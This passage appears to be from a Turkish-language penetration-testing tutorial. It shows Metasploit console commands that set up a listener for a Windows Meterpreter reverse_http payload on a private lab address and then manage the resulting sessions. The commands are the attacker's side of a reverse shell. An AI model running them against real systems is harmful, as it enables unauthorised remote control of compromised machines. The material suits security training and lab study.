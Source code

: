 ```
# msfconsole

msf5 > use exploit/multi/handler

msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_http

msf5 exploit(multi/handler) > set LHOST 192.168.1.87

msf5 exploit(multi/handler) > set LPORT 8080

msf5 exploit(multi/handler) > exploit

msf5 exploit(multi/handler) > background # session'ı arka plana atar sessions -l diyerek mevcut sessions'ları görebiliriz
```

![msfconsole](./assets/62-msfconsole.png)

- Dilersek `sessions -<session_id>` komutu ile ilgili session'a geçiş yapabiliriz

![sessions -id](./assets/63-sessions-id.png)
